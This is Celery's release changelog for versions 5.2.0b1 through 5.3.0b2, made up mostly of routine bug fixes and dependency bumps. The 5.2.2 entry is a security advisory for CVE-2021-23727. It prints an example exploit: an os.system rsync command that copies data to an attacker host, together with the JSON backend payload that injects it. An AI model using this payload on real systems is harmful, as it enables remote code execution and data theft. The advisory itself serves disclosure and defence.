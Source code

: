 .. _changelog:

================
 Change history
================

This document contains change notes for bugfix & new features
in the main branch & 5.2.x series, please see :ref:`whatsnew-5.2` for
an overview of what's new in Celery 5.2.

.. _version-5.3.0b2:

5.3.0b2
=======

:release-date: 2023-02-19 1:47 P.M GMT+2
:release-by: Asif Saif Uddin

- BLM-2: Adding unit tests to chord clone by @Nusnus in #7668
- Fix unknown task error typo by @dcecile in #7675
- rename redis integration test class so that tests are executed by @wochinge in #7684
- Check certificate/private key type when loading them by @qrmt in #7680
- Added integration test_chord_header_id_duplicated_on_rabbitmq_msg_duplication() by @Nusnus in #7692
- New feature flag: allow_error_cb_on_chord_header - allowing setting an error callback on chord header by @Nusnus in #7712
- Update README.rst sorting Python/Celery versions by @andrebr in #7714
- Fixed a bug where stamping a chord body would not use the correct stamping method by @Nusnus in #7722
- Fixed doc duplication typo for Signature.stamp() by @Nusnus in #7725
- Fix issue 7726: variable used in finally block may not be instantiated by @woutdenolf in #7727
- Fixed bug in chord stamping with another chord as a body + unit test by @Nusnus in #7730
- Use "describe_table" not "create_table" to check for existence of DynamoDB table by @maxfirman in #7734
- Enhancements for task_allow_error_cb_on_chord_header tests and docs by @Nusnus in #7744
- Improved custom stamping visitor documentation by @Nusnus in #7745
- Improved the coverage of test_chord_stamping_body_chord() by @Nusnus in #7748
- billiard >= 3.6.3.0,<5.0 for rpm by @auvipy in #7764
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #7625
- Fixed memory leak with ETA tasks at connection error when worker_cancel_long_running_tasks_on_connection_loss is enabled by @Nusnus in #7771
- Fixed bug where a chord with header of type tuple was not supported in the link_error flow for task_allow_error_cb_on_chord_header flag by @Nusnus in #7772
- Scheduled weekly dependency update for week 38 by @pyup-bot in #7767
- recreate_module: set spec to the new module by @skshetry in #7773
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #7775
- Override integration test config using integration-tests-config.json by @thedrow in #7778
- Fixed error handling bugs due to upgrade to a newer version of billiard by @Nusnus in #7781
- Do not recommend using easy_install anymore by @jugmac00 in #7789
- GitHub Workflows security hardening by @sashashura in #7768
- Update ambiguous acks_late doc by @Zhong-z in #7728
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #7799
- billiard >=4.0.2,<5.0 by @auvipy in #7720
- importlib_metadata remove deprecated entry point interfaces by @woutdenolf in #7785
- Scheduled weekly dependency update for week 41 by @pyup-bot in #7798
- pyzmq>=22.3.0 by @auvipy in #7497
- Remove amqp from the BACKEND_ALISES list by @Kludex in #7805
- Replace print by logger.debug by @Kludex in #7809
- Ignore coverage on except ImportError by @Kludex in #7812
- Add mongodb dependencies to test.txt by @Kludex in #7810
- Fix grammar typos on the whole project by @Kludex in #7815
- Remove isatty wrapper function by @Kludex in #7814
- Remove unused variable _range by @Kludex in #7813
- Add type annotation on concurrency/threads.py by @Kludex in #7808
- Fix linter workflow by @Kludex in #7816
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #7822
- Scheduled weekly dependency update for week 42 by @pyup-bot in #7821
- Remove .cookiecutterrc by @Kludex in #7830
- Remove .coveragerc file by @Kludex in #7826
- kombu>=5.3.0b2 by @auvipy in #7834
- Fix readthedocs build failure by @woutdenolf in #7835
- Fixed bug in group, chord, chain stamp() method, where the visitor overrides the previously stamps in tasks of these objects by @Nusnus in #7825
- Stabilized test_mutable_errback_called_by_chord_from_group_fail_multiple by @Nusnus in #7837
- Use SPDX license expression in project metadata by @RazerM in #7845
- New control command revoke_by_stamped_headers by @Nusnus in #7838
- Clarify wording in Redis priority docs by @strugee in #7853
- Fix non working example of using celery_worker pytest fixture by @paradox-lab in #7857
- Removed the mandatory requirement to include stamped_headers key when implementing on_signature() by @Nusnus in #7856
- Update serializer docs by @sondrelg in #7858
- Remove reference to old Python version by @Kludex in #7829
- Added on_replace() to Task to allow manipulating the replaced sig with custom changes at the end of the task.replace() by @Nusnus in #7860
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #7869
- Add clarifying information to completed_count documentation by @hankehly in #7873
- Stabilized test_revoked_by_headers_complex_canvas by @Nusnus in #7877
- StampingVisitor will visit the callbacks and errbacks of the signature by @Nusnus in #7867
- Fix "rm: no operand" error in clean-pyc script by @hankehly in #7878
- Add --skip-checks flag to bypass django core checks by @mudetz in #7859
- Scheduled weekly dependency update for week 44 by @pyup-bot in #7868
- Added two new unit tests to callback stamping by @Nusnus in #7882
- Sphinx extension: use inspect.signature to make it Python 3.11 compatible by @mathiasertl in #7879
- cryptography==38.0.3 by @auvipy in #7886
- Canvas.py doc enhancement by @Nusnus in #7889
- Fix typo by @sondrelg in #7890
- fix typos in optional tests by @hsk17 in #7876
- Canvas.py doc enhancement by @Nusnus in #7891
- Fix revoke by headers tests stability by @Nusnus in #7892
- feat: add global keyprefix for backend result keys by @kaustavb12 in #7620
- Canvas.py doc enhancement by @Nusnus in #7897
- fix(sec): upgrade sqlalchemy to 1.2.18 by @chncaption in #7899
- Canvas.py doc enhancement by @Nusnus in #7902
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #7904
- Fix test warnings by @ShaheedHaque in #7906
- Support for out-of-tree worker pool implementations by @ShaheedHaque in #7880
- Canvas.py doc enhancement by @Nusnus in #7907
- Use bound task in base task example. Closes #7909 by @WilliamDEdwards in #7910
- Allow the stamping visitor itself to set the stamp value type instead of casting it to a list by @Nusnus in #7914
- Stamping a task left the task properties dirty by @Nusnus in #7916
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #7917
- Fixed bug when chaining a chord with a group by @Nusnus in #7919
- Fixed bug in the stamping visitor mechanism where the request was lacking the stamps in the 'stamps' property by @Nusnus in #7928
- Fixed bug in task_accepted() where the request was not added to the requests but only to the active_requests by @Nusnus in #7929
- Fix bug in TraceInfo._log_error() where the real exception obj was hiding behind 'ExceptionWithTraceback' by @Nusnus in #7930
- Added integration test: test_all_tasks_of_canvas_are_stamped() by @Nusnus in #7931
- Added new example for the stamping mechanism: examples/stamping by @Nusnus in #7933
- Fixed a bug where replacing a stamped task and stamping it again by @Nusnus in #7934
- Bugfix for nested group stamping on task replace by @Nusnus in #7935
- Added integration test test_stamping_example_canvas() by @Nusnus in #7937
- Fixed a bug in losing chain links when unchaining an inner chain with links by @Nusnus in #7938
- Removing as not mandatory by @auvipy in #7885
- Housekeeping for Canvas.py by @Nusnus in #7942
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #7927
- Scheduled weekly dependency update for week 50 by @pyup-bot in #7954
- try pypy 3.9 in CI by @auvipy in #7956
- sqlalchemy==1.4.45 by @auvipy in #7943
- billiard>=4.1.0,<5.0 by @auvipy in #7957
- feat(typecheck): allow changing type check behavior on the app level; by @moaddib666 in #7952
- Add broker_channel_error_retry option by @nkns165 in #7951
- Add beat_cron_starting_deadline_seconds to prevent unwanted cron runs by @abs25 in #7945
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #7966
- Scheduled weekly dependency update for week 51 by @pyup-bot in #7965
- Added doc to "retry_errors" newly supported field of "publish_retry_policy" of the task namespace by @Nusnus in #7967
- Renamed from master to main in the docs and the CI workflows by @Nusnus in #7968
- Fix docs for the exchange to use with worker_direct by @alessio-b2c2 in #7973
- Pin redis==4.3.4 by @auvipy in #7974
- return list of nodes to make sphinx extension compatible with Sphinx 6.0 by @mathiasertl in #7978
- use version range redis>=4.2.2,<4.4.0 by @auvipy in #7980
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #7982
- Scheduled weekly dependency update for week 01 by @pyup-bot in #7987
- Add annotations to minimise differences with celery-aio-pool's tracer.py. by @ShaheedHaque in #7925
- Fixed bug where linking a stamped task did not add the stamp to the link's options by @Nusnus in #7992
- sqlalchemy==1.4.46 by @auvipy in #7995
- pytz by @auvipy in #8002
- Fix few typos, provide configuration + workflow for codespell to catch any new by @yarikoptic in #8023
- RabbitMQ links update by @arnisjuraga in #8031
- Ignore files generated by tests by @Kludex in #7846
- Revert "sqlalchemy==1.4.46 (#7995)" by @Nusnus in #8033
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #8039
- Fixed bug with replacing a stamped task with a chain or a group (inc. links/errlinks) by @Nusnus in #8034
- Fixed formatting in setup.cfg that caused flake8 to misbehave by @Nusnus in #8044
- Removed duplicated import Iterable by @Nusnus in #8046
- Fix docs by @Nusnus in #8047
- Document --logfile default by @strugee in #8057
- Stamping Mechanism Refactoring by @Nusnus in #8045
- result_backend_thread_safe config shares backend across threads by @CharlieTruong in #8058
- Fix cronjob that use day of month and negative UTC timezone by @pkyosx in #8053
- Stamping Mechanism Examples Refactoring by @Nusnus in #8060
- Fixed bug in Task.on_stamp_replaced() by @Nusnus in #8061
- [pre-commit.ci] pre-commit autoupdate by @pre-commit-ci in #8065
- Stamping Mechanism Refactoring 2 by @Nusnus in #8064
- Changed default append_stamps from True to False (meaning duplicates … by @Nusnus in #8068
- typo in comment: mailicious => malicious by @yanick in #8072
- Fix command for starting flower with specified broker URL by @ShukantPal in #8071
- Improve documentation on ETA/countdown tasks (#8069) by @norbertcyran in #8075


.. _version-5.3.0b1:

5.3.0b1
=======

:release-date: 2022-08-01 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Canvas Header Stamping (#7384).
- async chords should pass it's kwargs to the group/body.
- beat: Suppress banner output with the quiet option (#7608).
- Fix honor Django's TIME_ZONE setting.
- Don't warn about DEBUG=True for Django.
- Fixed the on_after_finalize cannot access tasks due to deadlock.
- Bump kombu>=5.3.0b1,<6.0.
- Make default worker state limits configurable (#7609).
- Only clear the cache if there are no active writers.
- Billiard 4.0.1


.. _version-5.3.0a1:

5.3.0a1
=======

:release-date: 2022-06-29 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Remove Python 3.4 compatibility code.
- call ping to set connection attr for avoiding redis parse_response error.
- Use importlib instead of deprecated pkg_resources.
- fix #7245 uid duplicated in command params.
- Fix subscribed_to maybe empty (#7232).
- Fix: Celery beat sleeps 300 seconds sometimes even when it should run a task within a few seconds (e.g. 13 seconds) #7290.
- Add security_key_password option (#7292).
- Limit elasticsearch support to below version 8.0.
- try new major release of pytest 7 (#7330).
- broker_connection_retry should no longer apply on startup (#7300).
- Remove __ne__ methods (#7257).
- fix #7200 uid and gid.
- Remove exception-throwing from the signal handler.
- Add mypy to the pipeline (#7383).
- Expose more debugging information when receiving unknown tasks. (#7405)
- Avoid importing buf_t from billiard's compat module as it was removed.
- Avoid negating a constant in a loop. (#7443)
- Ensure expiration is of float type when migrating tasks (#7385).
- load_extension_class_names - correct module_name (#7406)
- Bump pymongo[srv]>=4.0.2.
- Use inspect.getgeneratorstate in asynpool.gen_not_started (#7476).
- Fix test with missing .get() (#7479).
- azure-storage-blob>=12.11.0
- Make start_worker, setup_default_app reusable outside of pytest.
- Ensure a proper error message is raised when id for key is empty (#7447).
- Crontab string representation does not match UNIX crontab expression.
- Worker should exit with ctx.exit to get the right exitcode for non-zero.
- Fix expiration check (#7552).
- Use callable built-in.
- Include dont_autoretry_for option in tasks. (#7556)
- fix: Syntax error in arango query.
- Fix custom headers propagation on task retries (#7555).
- Silence backend warning when eager results are stored.
- Reduce prefetch count on restart and gradually restore it (#7350).
- Improve workflow primitive subclassing (#7593).
- test kombu>=5.3.0a1,<6.0 (#7598).
- Canvas Header Stamping (#7384).



.. _version-5.2.7:

5.2.7
=====

:release-date: 2022-5-26 12:15 P.M UTC+2:00
:release-by: Omer Katz

- Fix packaging issue which causes poetry 1.2b1 and above to fail install Celery (#7534).

.. _version-5.2.6:

5.2.6
=====

:release-date: 2022-4-04 21:15 P.M UTC+2:00
:release-by: Omer Katz

- load_extension_class_names - correct module_name (#7433).
    This fixes a regression caused by #7218.

.. _version-5.2.5:

5.2.5
=====

:release-date: 2022-4-03 20:42 P.M UTC+2:00
:release-by: Omer Katz

**This release was yanked due to a regression caused by the PR below**

- Use importlib instead of deprecated pkg_resources (#7218).

.. _version-5.2.4:

5.2.4
=====

:release-date: 2022-4-03 20:30 P.M UTC+2:00
:release-by: Omer Katz

- Expose more debugging information when receiving unknown tasks (#7404).

.. _version-5.2.3:

5.2.3
=====

:release-date: 2021-12-29 12:00 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Allow redis >= 4.0.2.
- Upgrade minimum required pymongo version to 3.11.1.
- tested pypy3.8 beta (#6998).
- Split Signature.__or__ into subclasses' __or__ (#7135).
- Prevent duplication in event loop on Consumer restart.
- Restrict setuptools>=59.1.1,<59.7.0.
- Kombu bumped to v5.2.3
- py-amqp bumped to v5.0.9
- Some docs & CI improvements.


.. _version-5.2.2:

5.2.2
=====

:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz

- Various documentation fixes.
- Fix CVE-2021-23727 (Stored Command Injection security vulnerability).

    When a task fails, the failure information is serialized in the backend.
    In some cases, the exception class is only importable from the
    consumer's code base. In this case, we reconstruct the exception class
    so that we can re-raise the error on the process which queried the
    task's result. This was introduced in #4836.
    If the recreated exception type isn't an exception, this is a security issue.
    Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
    ``os.system("rsync /data attacker@192.168.56.100:~/data")``
    by setting the task's result to a failure in the result backend with the os,
    the system function as the exception type and the payload ``rsync /data attacker@192.168.56.100:~/data`` as the exception arguments like so:

    .. code-block:: python

        {
              "exc_module": "os",
              'exc_type': "system",
              "exc_message": "rsync /data attacker@192.168.56.100:~/data"
        }

    According to my analysis, this vulnerability can only be exploited if
    the producer delayed a task which runs long enough for the
    attacker to change the result mid-flight, and the producer has
    polled for the task's result.
    The attacker would also have to gain access to the result backend.
    The severity of this security vulnerability is low, but we still
    recommend upgrading.


.. _version-5.2.1:

5.2.1
=====

:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Fix rstrip usage on bytes instance in ProxyLogger.
- Pass logfile to ExecStop in celery.service example systemd file.
- fix: reduce latency of AsyncResult.get under gevent (#7052)
- Limit redis version: <4.0.0.
- Bump min kombu version to 5.2.2.
- Change pytz>dev to a PEP 440 compliant pytz>0.dev.0.
- Remove dependency to case (#7077).
- fix: task expiration is timezone aware if needed (#7065).
- Initial testing of pypy-3.8 beta to CI.
- Docs, CI & tests cleanups.


.. _version-5.2.0:

5.2.0
=====

:release-date: 2021-11-08 7.15 A.M UTC+6:00
:release-by: Asif Saif Uddin

- Prevent from subscribing to empty channels (#7040)
- fix register_task method.
- Fire task failure signal on final reject (#6980)
- Limit pymongo version: <3.12.1 (#7041)
- Bump min kombu version to 5.2.1

.. _version-5.2.0rc2:

5.2.0rc2
========

:release-date: 2021-11-02 1.54 P.M UTC+3:00
:release-by: Naomi Elstein

- Bump Python 3.10.0 to rc2.
- [pre-commit.ci] pre-commit autoupdate (#6972).
- autopep8.
- Prevent worker to send expired revoked items upon hello command (#6975).
- docs: clarify the 'keeping results' section (#6979).
- Update deprecated task module removal in 5.0 documentation (#6981).
- [pre-commit.ci] pre-commit autoupdate.
- try python 3.10 GA.
- mention python 3.10 on readme.
- Documenting the default consumer_timeout value for rabbitmq >= 3.8.15.
- Azure blockblob backend parametrized connection/read timeouts (#6978).
- Add as_uri method to azure block blob backend.
- Add possibility to override backend implementation with celeryconfig (#6879).
- [pre-commit.ci] pre-commit autoupdate.
- try to fix deprecation warning.
- [pre-commit.ci] pre-commit autoupdate.
- not needed anyore.
- not needed anyore.
- not used anymore.
- add github discussions forum

.. _version-5.2.0rc1:

5.2.0rc1
========
:release-date: 2021-09-26 4.04 P.M UTC+3:00
:release-by: Omer Katz

- Kill all workers when main process exits in prefork model (#6942).
- test kombu 5.2.0rc1 (#6947).
- try moto 2.2.x (#6948).
- Prepared Hacker News Post on Release Action.
- update setup with python 3.7 as minimum.
- update kombu on setupcfg.
- Added note about automatic killing all child processes of worker after its termination.
- [pre-commit.ci] pre-commit autoupdate.
- Move importskip before greenlet import (#6956).
- amqp: send expiration field to broker if requested by user (#6957).
- Single line drift warning.
- canvas: fix kwargs argument to prevent recursion (#6810) (#6959).
- Allow to enable Events with app.conf mechanism.
- Warn when expiration date is in the past.
- Add the Framework :: Celery trove classifier.
- Give indication whether the task is replacing another (#6916).
- Make setup.py executable.
- Bump version: 5.2.0b3 → 5.2.0rc1.

.. _version-5.2.0b3:

5.2.0b3
=======

:release-date: 2021-09-02 8.38 P.M UTC+3:00
:release-by: Omer Katz

- Add args to LOG_RECEIVED (fixes #6885) (#6898).
- Terminate job implementation for eventlet concurrency backend (#6917).
- Add cleanup implementation to filesystem backend (#6919).
- [pre-commit.ci] pre-commit autoupdate (#69).
- Add before_start hook (fixes #4110) (#6923).
- Restart consumer if connection drops (#6930).
- Remove outdated optimization documentation (#6933).
- added https verification check functionality in arangodb backend (#6800).
- Drop Python 3.6 support.
- update supported python versions on readme.
- [pre-commit.ci] pre-commit autoupdate (#6935).
- Remove appveyor configuration since we migrated to GA.
- pyugrade is now set to upgrade code to 3.7.
- Drop exclude statement since we no longer test with pypy-3.6.
- 3.10 is not GA so it's not supported yet.
- Celery 5.1 or earlier support Python 3.6.
- Fix linting error.
- fix: Pass a Context when chaining fail results (#6899).
- Bump version: 5.2.0b2 → 5.2.0b3.

.. _version-5.2.0b2:

5.2.0b2
=======

:release-date: 2021-08-17 5.35 P.M UTC+3:00
:release-by: Omer Katz

- Test windows on py3.10rc1 and pypy3.7 (#6868).
- Route chord_unlock task to the same queue as chord body (#6896).
- Add message properties to app.tasks.Context (#6818).
- handle already converted LogLevel and JSON (#6915).
- 5.2 is codenamed dawn-chorus.
- Bump version: 5.2.0b1 → 5.2.0b2.

.. _version-5.2.0b1:

5.2.0b1
=======

:release-date: 2021-08-11 5.42 P.M UTC+3:00
:release-by: Omer Katz

- Add Python 3.10 support (#6807).
- Fix docstring for Signal.send to match code (#6835).
- No blank line in log output (#6838).
- Chords get body_type independently to handle cases where body.type does not exist (#6847).
- Fix #6844 by allowing safe queries via app.inspect().active() (#6849).
- Fix multithreaded backend usage (#6851).
- Fix Open Collective donate button (#6848).
- Fix setting worker concurrency option after signal (#6853).
- Make ResultSet.on_ready promise hold a weakref to self (#6784).
- Update configuration.rst.
- Discard jobs on flush if synack isn't enabled (#6863).
- Bump click version to 8.0 (#6861).
- Amend IRC network link to Libera (#6837).
- Import celery lazily in pytest plugin and unignore flake8 F821, "undefined name '...'" (#6872).
- Fix inspect --json output to return valid json without --quiet.
- Remove celery.task references in modules, docs (#6869).
-  The Consul backend must correctly associate requests and responses (#6823).
